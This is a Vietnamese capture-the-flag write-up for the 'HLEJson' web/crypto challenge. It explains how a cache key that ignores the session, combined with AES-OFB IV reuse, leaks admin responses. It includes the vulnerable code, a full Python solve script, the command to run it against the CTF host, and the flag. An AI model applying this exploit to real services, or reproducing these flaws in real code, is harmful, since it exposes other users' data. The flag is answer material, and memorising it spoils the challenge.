





# HLEJson

## Thông tin challenge

- Chủ đề: Web/Crypto, JSON service
- Lỗ hổng: cache poisoning kết hợp tái sử dụng IV trong AES-OFB
- Flag: `MTA60{d1d_y0u_kn0w_hlejson_1s_4n_3xtr3m3ly_s3cur3_j50n_l1br4ry}`

## Tổng quan

Challenge là một TCP service quản lý sản phẩm, giao tiếp bằng JSON. Service hỗ trợ các method chính:

- `LOGIN`
- `LIST_PRODUCTS`
- `GET_PRODUCT`
- `GET_FLAG`

Bug chính nằm ở cơ chế cache response và lớp mã hóa response. Nếu healthcheck của server tạo cache bằng session admin, người dùng thường có thể yêu cầu lại cùng method/params để lấy response admin đã cache, nhưng response đó lại bị giải mã bằng AES key của chính người dùng.

Do AES-OFB bị tái sử dụng cùng IV, chỉ cần lấy được hai response admin bị leak theo cách này là có thể XOR để khôi phục flag.

## Phân tích mã nguồn

Trong `server.py`, hai method `GET_PRODUCT` và `GET_FLAG` được đưa vào cache:



```python
cacheable_methods = {"GET_PRODUCT", "GET_FLAG"}
should_cache = request_obj.method.upper() in cacheable_methods
session = request_obj.params["session"] if "session" in request_obj.params else None
request_obj.params.pop("session", None)
```

Điểm lỗi nằm ở việc server xóa `session` khỏi `params` trước khi kiểm tra và lưu cache. Vì vậy cache key chỉ còn phụ thuộc vào:

- method
- params sau khi đã bỏ `session`
- địa chỉ IP client

Khi tìm thấy response trong cache, server không kiểm tra session có hợp lệ hay có quyền admin hay không. Nó chỉ lấy `aes_session_key` từ session JSON base64 của người dùng rồi dùng key đó để decrypt cached ciphertext:

```python
cached_response = self.request_cache.check_request(
    method=request_obj.method,
    params=request_obj.params,
    ip_address=client_address[0],
)
if cached_response:
    aes_key = json.loads(base64.b64decode(session)).get("aes_session_key")
    response_decrypt = self.cryprosession.decrypt(cached_response, aes_key)
```

Như vậy, nếu một request admin từng được đưa vào cache, user thường có thể gửi lại cùng method/params. Server sẽ lấy ciphertext admin trong cache nhưng lại decrypt bằng AES key của user. Kết quả decrypt không phải plaintext đúng, nhưng vẫn là dữ liệu có quan hệ XOR với plaintext admin.

## Dữ liệu admin được đưa vào cache

File `healthcheck.py` đăng nhập bằng tài khoản admin, trong đó password chính là flag:



```python
login_req = {"method": "LOGIN", "params": {"username": "admin", "password": FLAG}}
```

Sau đó healthcheck gọi `GET_PRODUCT`:

```python
get_product_req = {
    "method": "GET_PRODUCT",
    "params": {"product_name": random_product["name"], "session": session},
}
```

và gọi tiếp `GET_FLAG`:

```python
flag_req = {"method": "GET_FLAG", "params": {"session": session}}
```



Điều này có nghĩa là healthcheck định kỳ đưa response admin của `GET_FLAG` vào cache. Ngoài ra, khi product ngẫu nhiên là `Admin Product`, response của sản phẩm admin cũng được đưa vào cache.

## Lỗi mã hóa

Trong `CryptoSession`, IV chỉ được sinh một lần khi khởi tạo object:



```python
self.iv = os.urandom(16)
```

Mỗi lần `encrypt()` được gọi, service tiếp tục dùng lại IV này với AES-OFB:

```python
cipher_aes = AES.new(aes_session_key, AES.MODE_OFB, iv=self.iv)
```

Trong `server.py`, trong hàm `_setup`, với tài khoản admin, AES key được tạo từ flag:



```python
admin_aes = md5(FLAG.encode()).digest().hex()
```

Do cùng admin key và cùng IV được dùng cho các response admin, các response này dùng cùng một keystream OFB. Khi ta lấy hai cached response admin nhưng bị decrypt bằng key của user, ta có:

```text
leak_flag    = admin_flag_json    xor admin_keystream xor user_keystream
leak_product = admin_product_json xor admin_keystream xor user_keystream
```

XOR hai giá trị leak với nhau sẽ triệt tiêu cả `admin_keystream` lẫn `user_keystream`:

```text
leak_flag xor leak_product = admin_flag_json xor admin_product_json
```

Trong đó JSON của `Admin Product` là dữ liệu đã biết:

```python
{"owner": "admin", "name": "Admin Product", "description": "This is an admin-only product"}
```

Vì vậy có thể khôi phục response chứa flag bằng công thức:

```text
admin_flag_json = leak_flag xor leak_product xor known_admin_product_json
```

## Ý tưởng khai thác

Các bước khai thác:

1. Đăng nhập bằng user thường với username/password bất kỳ. Service chấp nhận user không phải admin mà không kiểm tra password.
2. Gửi liên tục `GET_FLAG` bằng session của user cho đến khi healthcheck admin đã cache response `GET_FLAG`.
3. Gửi liên tục `GET_PRODUCT` với `product_name = "Admin Product"` cho đến khi healthcheck cache response của sản phẩm admin.
4. Hai response cache sẽ được server decrypt bằng key user. Nếu kết quả không parse được JSON, service trả bytes dưới dạng base64 trong trường `data.b64`.
5. Decode hai leak này, sau đó XOR với JSON đã biết của `Admin Product`.
6. Parse JSON khôi phục được và lấy trường `flag`.

## Script khai thác

```py
#!/usr/bin/env python3
import argparse
import base64
import hashlib
import json
import socket
import sys
import time


KNOWN_ADMIN_PRODUCT = json.dumps(
    {
        "owner": "admin",
        "name": "Admin Product",
        "description": "This is an admin-only product",
    }
).encode()


def xor3(a: bytes, b: bytes, c: bytes) -> bytes:
    return bytes(x ^ y ^ z for x, y, z in zip(a, b, c))


class Client:
    def __init__(self, host: str, port: int, timeout: float = 6):
        self.host = host
        self.port = port
        self.timeout = timeout

    def rpc(self, payload: dict) -> dict:
        with socket.create_connection((self.host, self.port), timeout=self.timeout) as sock:
            sock.settimeout(self.timeout)
            banner = b""
            while not banner.endswith(b"> "):
                chunk = sock.recv(8192)
                if not chunk:
                    raise EOFError("server closed before prompt")
                banner += chunk

            sock.sendall(json.dumps(payload).encode() + b"\n")
            data = b""
            while True:
                chunk = sock.recv(65536)
                if not chunk:
                    break
                data += chunk
                start = data.find(b"{")
                if start == -1:
                    continue
                tail = data[start:]
                for sep in (b"\n", b"> "):
                    if sep in tail:
                        line = tail.split(sep, 1)[0].strip()
                        if line:
                            return json.loads(line.decode())
            raise EOFError(data)

    def login(self, username: str, password: str) -> str:
        response = self.rpc(
            {
                "method": "LOGIN",
                "params": {"username": username, "password": password},
            }
        )
        if response.get("status") != "ok":
            raise RuntimeError(f"login failed: {response}")
        return response["data"]["session"]


def decode_leak(value: str, expected_len: int | None = None) -> bytes:
    try:
        decoded = base64.b64decode(value, validate=True)
        if expected_len is None or len(decoded) == expected_len:
            return decoded
    except Exception:
        pass
    return value.encode()


def cached_request(client: Client, session: str, method: str, params: dict) -> dict:
    request_params = dict(params)
    request_params["session"] = session
    return client.rpc({"method": method, "params": request_params})


def get_flag_leak(client: Client, session: str) -> bytes | None:
    response = cached_request(client, session, "GET_FLAG", {})
    if response.get("status") != "ok":
        return None
    data = response.get("data") or {}
    if set(data) == {"b64"}:
        return decode_leak(data["b64"])
    if "flag" in data:
        return json.dumps({"flag": data["flag"]}).encode()
    return None


def get_admin_product_leak(client: Client, session: str) -> bytes | None:
    response = cached_request(
        client,
        session,
        "GET_PRODUCT",
        {"product_name": "Admin Product"},
    )
    if response.get("status") != "ok":
        return None
    data = response.get("data") or {}
    if set(data) == {"b64"}:
        return decode_leak(data["b64"], expected_len=len(KNOWN_ADMIN_PRODUCT))
    if {"owner", "name", "description"} <= set(data):
        return json.dumps(
            {
                "owner": data["owner"],
                "name": data["name"],
                "description": data["description"],
            }
        ).encode()
    return None


def parse_flag(recovered: bytes) -> str:
    candidates = [recovered]
    end = recovered.rfind(b"}")
    if end != -1:
        candidates.append(recovered[: end + 1])

    for candidate in candidates:
        try:
            obj = json.loads(candidate.decode())
        except Exception:
            continue
        flag = obj.get("flag")
        if isinstance(flag, str):
            return flag
    raise RuntimeError(f"could not parse recovered JSON: {recovered!r}")


def solve(host: str, port: int, wait: int, verbose: bool) -> str:
    client = Client(host, port)

    password = "hlejson-cache"
    expected_key = hashlib.md5(password.encode()).digest().hex()
    session = client.login("user01", password)
    session_obj = json.loads(base64.b64decode(session))
    if session_obj.get("aes_session_key") != expected_key:
        raise RuntimeError("unexpected session key derivation")

    start = time.time()
    last_log = 0.0
    while time.time() - start < wait:
        flag_leak = get_flag_leak(client, session)
        product_leak = get_admin_product_leak(client, session)

        now = time.time()
        if verbose and (flag_leak or product_leak or now - last_log >= 5):
            print(
                f"{int(now - start)}s flag={'Y' if flag_leak else '-'} "
                f"product={'Y' if product_leak else '-'}",
                file=sys.stderr,
                flush=True,
            )
            last_log = now

        if flag_leak and product_leak:
            recovered = xor3(flag_leak, product_leak, KNOWN_ADMIN_PRODUCT)
            return parse_flag(recovered)
        time.sleep(1)

    raise TimeoutError("timed out waiting for healthcheck cache entries")


def main() -> None:
    parser = argparse.ArgumentParser()
    parser.add_argument("host", nargs="?", default="127.0.0.1")
    parser.add_argument("port", nargs="?", type=int, default=5555)
    parser.add_argument("--wait", type=int, default=600)
    parser.add_argument("-q", "--quiet", action="store_true")
    args = parser.parse_args()

    print(solve(args.host, args.port, args.wait, not args.quiet))


if __name__ == "__main__":
    main()
```

Chạy script:

```bash
python3 solve.py mta-ctf-60.id.vn 6004 --wait 180
```

Phần khôi phục cốt lõi:

```python
recovered = xor3(flag_leak, product_leak, KNOWN_ADMIN_PRODUCT)
flag = json.loads(recovered.decode())["flag"]
```

Chạy script sẽ thu được kết quả mong muốn.

## Flag

```text
MTA60{d1d_y0u_kn0w_hlejson_1s_4n_3xtr3m3ly_s3cur3_j50n_l1br4ry}
```
